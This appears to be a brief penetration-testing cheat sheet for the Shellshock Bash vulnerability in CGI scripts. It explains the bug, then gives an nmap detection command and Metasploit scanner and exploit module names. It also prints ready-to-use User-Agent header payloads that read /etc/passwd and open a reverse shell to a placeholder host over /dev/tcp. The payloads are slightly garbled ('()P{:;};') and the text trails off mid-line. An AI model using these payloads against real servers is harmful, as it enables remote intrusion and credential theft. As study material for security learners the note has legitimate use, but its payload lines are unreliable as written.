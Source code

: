 One of the biggest Linux vulns over the last 15-20 years. Allows attacker to execute arbitrary commands via RCE.

Actually a family of vulns in the bash shell that allow an attacker to execute remote code. Not very common, and you will likely not encounter it in the wild.

Bash mistakenly executes trailing commands after a series of characters  () { :; };

Impacts CGI scripts or .sh scripts that are also vulnerable to this attack. CGI scripts are used by apache to execute arbitary commands on the linux system after which the output is displayed to the client.

In order to exploit this vuln you need to locate an input vector or script that allows you to communicate. In the context of an apache web server we can utilize any legitimate CGI script accessible on the web server. When the script is executed the web server will initiate a new process and run the CGI script with bash. Can be exploited with an MSF module.

To scan for this vuln you can use nmap like so
nmap ip.addr -sV -p 80 --script=http-shellshock --script-args="http-shellshock.uri=/script.cgi"

You can also use the metasploit scanner:
auxiliary/scanner/http/apache_mod_cgi_bash_env

Now any input after  () { :; }; will be interpreted by the server.

example:
User-Agent: ()P{:;}; echo; echo; /bin/bash -c 'cat /etc/passwd'
User-Agent: ()P{:;}; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/ip.addr/port 0>&1'

With Metasploit:

exploit/multi/http/apache_mod_cgi_bash_env_exec
( set RHOSTS and TARGETURI )
(
